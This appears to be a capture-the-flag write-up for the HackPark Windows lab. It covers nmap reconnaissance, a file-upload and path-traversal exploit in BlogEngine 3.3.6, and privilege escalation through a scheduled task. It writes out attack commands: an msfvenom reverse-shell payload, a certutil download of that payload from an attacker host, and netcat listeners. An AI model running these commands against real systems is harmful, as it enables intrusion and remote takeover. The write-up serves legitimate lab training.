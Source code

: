 # HackPark CTF - Attack Report

## Objective:
- Gain system-level access to the HackPark Windows Server, exploit vulnerabilities in BlogEngine 3.3.6, escalate privileges, and retrieve sensitive information from the target.

---

## Reconnaissance

### 1. **Nmap Scan**

We began by scanning the target machine using **Nmap** to identify open ports and services.

```bash
nmap -sC -sV -oN nmap_scan.txt <target_ip>
```
- `-sC`: Runs default scripts.
- `-sV`: Version detection.
- `-oN`: Outputs the results to a file (`nmap_scan.txt`).

#### Results:
- **Port 80**: HTTP service running (BlogEngine 3.3.6)
- **Port 3389**: Remote Desktop Protocol (RDP)

---
### Gain Foothold
##  This portion will be demonstrated on my YouTube channel 
- ***Crafted Payload***
- ***BurpSuite***

---

## Exploitation Process

### 1. Exploitation of BlogEngine 3.3.6
- **Upload Directory**: The vulnerable BlogEngine version allowed us to upload an ASPX file into the `App_Data/files` directory.
- **File Used**: We uploaded a file named `PostView.ascx` containing a reverse shell payload.

### 2. Triggering the Reverse Shell
- **Path Traversal**: To execute the uploaded file, we navigated to the following URL:
  ```bash
  /?theme=../../App_Data/files
  ```
- **Listener**: We set up a Netcat listener to receive the reverse shell on our attack machine:
  ```bash
  nc -nvlp 4444
  ```
- **Result**: Successfully received a shell from the target.

### 3. Discovery of a Scheduled Task
- **Task Identified**: We found a scheduled task named `Messages.exe` running on the system.

### 4. Reverse Shell via `Messages.exe` Exploit
- **Creation of Malicious Message.exe**: We used `msfvenom` to generate a malicious executable:
  ```bash
  msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.162.140 LPORT=7777 -f exe > Message.exe
  ```
- **File Transfer**: The malicious executable was transferred to the target using `certutil`:
  ```bash
  certutil -urlcache -f http://10.23.26.19:80/Message.exe Message.exe
  ```
- **Execution**: The scheduled task automatically executed `Message.exe`, connecting to our Netcat listener:
  ```bash
  nc -nvlp 7777
  ```
- **Result**: Gained system-level access through the reverse shell.

---

## Privilege Escalation

### 5. Gaining Access to Administrator Files
- **Directory Change**: Navigated to `C:\Users\Administrator\Desktop`:
  ```bash
  cd C:\Users\Administrator\Desktop
  ```

### 6. Retrieving `root.txt`
- **Identified File**: The `root.txt` file was located in the `Administrator\Desktop` directory:
  ```bash
  dir
  ```
  **Output**:
  ```
  Directory of C:\Users\Administrator\Desktop
  08/04/2019  11:51 AM    32 root.txt
  ```
- **Reading root.txt**: The content of `root.txt` was retrieved using the `type` command:
  ```bash
  type root.txt
  ```
  **Output**:
  ```
  7e13d—redacted--b3d78d3e72
  ```

---

## Key Information

- **Reverse Shell Established**:
  - From: `10.10.162.140`
  - To: `10.23.26.19`
  - Using `Messages.exe` and Netcat listeners on ports 4444 and 7777.
  
- **Files and Folders Discovered**:
  - **Scheduled Task**: `Messages.exe`
  - **Accessed directories**:
    - `C:\Program Files (x86)\SystemScheduler`
    - `C:\Users\Administrator\Desktop`

- **Root Flag**:
  - **Location**: `C:\Users\Administrator\Desktop\root.txt`
  - **Content**: `redacted
